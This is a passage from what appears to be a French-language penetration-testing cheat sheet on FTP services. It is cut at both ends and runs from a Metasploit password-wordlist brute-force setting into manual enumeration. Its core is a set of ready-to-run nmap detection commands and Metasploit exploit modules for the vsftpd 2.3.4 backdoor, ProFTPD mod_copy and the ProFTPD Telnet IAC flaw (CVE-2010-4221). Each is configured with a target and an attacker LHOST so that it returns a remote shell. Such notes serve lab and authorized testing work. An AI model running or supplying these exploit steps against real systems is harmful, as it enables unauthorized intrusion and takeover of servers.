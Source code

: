 ```bash
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
set VERBOSE true
run
```

---

## ⚔️ 5. Exploitation selon version détectée

### vsftpd 2.3.4 (Backdoor)
```bash
# Détection
nmap --script ftp-vsftpd-backdoor -p 21 target

# Exploitation avec Metasploit
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS target
set LHOST attacker_ip
exploit
```

### ProFTPD 1.3.5 (mod_copy)
```bash
# Détection
nmap -sV -p 21 target | grep "ProFTPD 1.3.5"

# Exploitation
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOSTS target
set LHOST attacker_ip
set LPORT 4444
exploit
```

### ProFTPD Telnet IAC (CVE-2010-4221)
```bash
# Détection
nmap --script ftp-vuln-cve2010-4221 -p 21 target

# Exploitation
use exploit/unix/ftp/proftpd_telnet_iac
set RHOSTS target
set LHOST attacker_ip
exploit
```

---

## 🔍 6. Énumération manuelle FTP

### Connexion et commandes de base
```bash
# Connexion standard
ftp target
# Ou avec timeout
timeout 10 ftp target

# Connexion anonyme
ftp target
# Username: anonymous
# Password: anonymous ou email

# Commandes FTP utiles
```